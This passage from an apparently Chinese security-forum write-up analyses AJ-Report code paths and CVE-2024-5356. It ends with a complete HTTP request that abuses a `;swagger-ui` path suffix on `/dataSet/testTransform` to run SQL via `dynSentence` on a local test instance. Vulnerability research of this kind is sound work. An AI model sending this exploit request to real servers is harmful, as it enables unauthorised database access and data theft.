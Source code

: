 ![image-20241022200222447](https://shs3.b.qianxin.com/attack_forum/2024/10/attach-8dc85f8c30ca07f32301e6735936c0c1c59a4dcd.png)

#### 其他入口点

选了`/reportDashboard/getData`接口做入口点，跟到这发现一开始的`DataSetDto`没了，在`detailSet`里面弄一个新的，而我传入的`setCode`是随便写的，肯定是没有对应的`result`，所以下面`getDynSentence`这些肯定获取不到值，所以就断了。(也有可能可以先用哪个接口把DataSetDto跟setCode对应保存，再用`getData`接口重新获取到之前设置好的`DataSetDto`？感觉是可以的，但是不折腾了

```java
    public DataSetDto detailSet(String setCode) {
        DataSetDto dto = new DataSetDto();
        DataSet result = selectOne("set_code", setCode);
        GaeaBeanUtils.copyAndFormatter(result, dto);
        return getDetailSet(dto, setCode);
    }
```

![image-20241020215915058](https://shs3.b.qianxin.com/attack_forum/2024/10/attach-a6aac86d216def91c99ee5d768455e1ef4f8e386.png)

### SQL注入

#### testTransform接口

已知：`CVE-2024-5356 is a newly disclosed critical vulnerability affecting anji-plus AJ-Report versions up to 1.4.1. This issue lies within an unknown function of the file /dataSet/testTransform;swagger-ui, where manipulation of the argument dynSentence enables SQL injection.`

翻译一下就是/dataSet/testTransform接口存在SQL注入

找了一下这个接口，发现其实就是在后台有个执行SQL命令的地方，但是还是负责任的跟一下看看，这里有一个问题就是需要知道sourceCode才能执行到执行SQL那一步，而sourceCode是管理员添加数据源的时候设置的，通常情况下不好猜，我这里添加了一个数据源“123”

![image-20241022191056936](https://shs3.b.qianxin.com/attack_forum/2024/10/attach-5fa1f07ac003063098c5c9239c8eba9fdda81748.png)

数据包如下

```http
POST /dataSet/testTransform;swagger-ui/ HTTP/1.1
Host: 127.0.0.1:9095
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/json;charset=UTF-8
Connection: close
Content-Length: 610

{"sourceCode":"123","dynSentence":"show DATABASES","dataSetParamDtoList":
[],"dataSetTransformDtoList":[],"setType":"sql"}

```
